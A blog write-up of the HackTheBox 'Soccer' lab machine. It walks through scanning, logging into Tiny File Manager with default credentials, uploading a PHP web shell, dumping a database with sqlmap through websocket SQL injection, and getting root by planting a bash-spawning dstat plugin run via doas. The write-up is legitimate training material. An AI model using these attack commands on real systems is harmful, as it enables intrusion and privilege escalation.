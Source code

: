 ```yaml
---
layout: post
title: "Soccer"
date: 2024-12-28
author: d0s3nt
categories: [Writeup, HackTheBox]
tags: [htb, writeup, security, linux, web, privesc]
pin: true
math: true
mermaid: true
image:
  path: /assets/Hack-The-Box-logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```


first nmap

```bash
sudo nmap -sC -sV -p- -oN soccer -T4 10.10.11.194
```
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524224700.png)

starting with the web port 80

nothing interesting at the main page let's fuzz
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524224828.png)

I found a cms tiny
```bash
ffuf -u http://soccer.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -ic
```
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524224903.png)

we have tiny file manager
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524224934.png)

a quick google search got as the default creds `admin admin@123`
we can upload anything we want , so let's upload a php file and get rce 

I used [phpbash](https://github.com/Arrexel/phpbash)
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524225229.png)

![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524225251.png)

nothing Interesting , I will run `linpeas`

we got another subdomain , listening on port 80 
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524225701.png)

after adding it to our /etc/hosts file  
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524225753.png)

same website but new functionality 

let's create new account and login into the app 

we got this `/check` page , it seems like it's check for a ticket if it's available in the database 

![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524230140.png)

![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524230153.png)

the weird thing is I try to intercept this request but I can't catch it 
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524230353.png)

if we want to catch web sockets , we need to start intercepting from the beginning , like from the sign-in part that's at least what I learned from watching ippsec solving it 

![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524230529.png)

there's a  boolean injection via this websocket , if the query i correct returns Exists else return doesn't exist
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524230732.png)
we can use `sqlmap` to exploit it 
```bash
sqlmap -u ws://soc-player.soccer.htb:9091  --data '{"id":"80989"}' --dbms  mysql --risk 3 --level 5 --batch --dump --thread 10
```
![/home/user/myblog/_site](/assets/img/posts/Union/Pasted image 20240524230947.png)

we can ssh as `player`
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524231335.png)

```bash
find / -perm -4000 2>/dev/null
```
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524231328.png)

![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524231422.png)


small research about `doas` seems like small sudo  and we need to find a `doas.conf` file so we now which command is running 

we can run `dstat`` as root
`cat /usr/local/etc/doas.conf`
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524231722.png)
[gtfobins](https://gtfobins.github.io/gtfobins/dstat/)
![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524231758.png)

```bash
echo 'import os; os.execv("/bin/bash", ["bash"])' > /usr/local/share/dstat/dstat_d0s3nt.py`
doas -u root /usr/bin/dstat --d0s3nt
```

![/home/user/myblog/_site](/assets/img/posts/Soccer/Pasted image 20240524232504.png)